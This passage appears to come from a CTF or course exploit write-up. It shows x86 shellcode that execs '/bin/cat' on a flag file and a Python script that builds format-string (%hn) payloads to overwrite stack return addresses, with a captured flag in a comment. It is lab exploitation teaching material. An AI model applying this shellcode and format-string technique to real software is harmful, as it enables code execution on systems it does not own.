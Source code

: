 ```
    
    # ECX now points to the argv array: {"/bin/cat", "flagtxt", NULL}
    mov ecx, esp
    
    xor edx, edx
    
    # EBX should point to the filename ("/bin/cat")
    mov ebx, [ecx]  # EBX = "/bin/cat"
    
    # Perform the execve system call
    mov al, 0xb # execve syscall number (11)
    int 0x80    # Trigger the syscall
    
    # Exit the program (in case execve fails)
    mov al, 0x1
    xor ebx, ebx
    int 0x80
```

#### ``hex2binary.py``
* code snippet
```
#!/usr/bin/env python

import sys
import struct


# flag: SKCTF{b4d_f0rm47_57r1n6_:(}


# Function to increment a little-endian address by 1 byte
def increment_address(addr, how_much=1):
    # Convert little-endian bytes to an integer
    addr_int = struct.unpack("<I", addr)[0] + how_much
    # Convert the incremented integer back to little-endian bytes
    return struct.pack("<I", addr_int)

# Function to calculate the format string for the second half and first half addresses
def calculate_format_string(first_half_addr, base=16):
    # The address to write: first_half_addr + 52 bytes
    target_addr = struct.unpack("<I", first_half_addr)[0] + 70
    
    # Adjust the address based on the 7-byte string and 16 bytes of return addresses
    lower_bytes_target = (target_addr & 0xFFFF) - 16  # Lower 16 bits of target, minus the offset
    upper_bytes_target = (target_addr >> 16) - (lower_bytes_target + 16)  # Upper 16 bits

    # Create the new format strings based on calculated values
    second_format_string = "%{}d%3$hn".format(lower_bytes_target).encode()
    first_half_format_string = "%{}d%4$hn".format(upper_bytes_target).encode()

    return second_format_string, first_half_format_string


cnt = 32

# IS561: A<string_format>
dummy = "\x41"

# Initial return addresses (in little-endian)
# 0xffffd8f6 == 4294957302
# 0xffffd8d4
second_half_return_address = struct.pack("<I", 0xffffd8d4)
```